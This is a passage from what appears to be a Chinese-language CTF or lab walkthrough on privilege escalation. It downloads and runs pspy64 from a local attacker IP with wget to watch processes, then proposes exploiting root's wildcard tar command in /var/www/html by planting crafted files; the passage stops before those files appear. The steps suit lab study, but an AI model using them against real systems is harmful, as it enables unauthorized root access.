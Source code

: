 
### 查看进程信息

上传pspy64

```
wget 192.168.1.3/pspy64
chmod +x pspy64
./pspy64
```

![image-20250324190042258](assets/image-20250324190042258.png)

![image-20250324190200433](assets/image-20250324190200433.png)

可以看到root用户在/var/www/html路径下执行tar命令

且压缩的文件用的是通配符

则我们可以在/var/www/html路径下放置恶意文件

利用通配符处理来得到root权限



### 进入/var/www/html

```
cd /var/www/html
touch 1
ls
```

![image-20250324190702868](assets/image-20250324190702868.png)
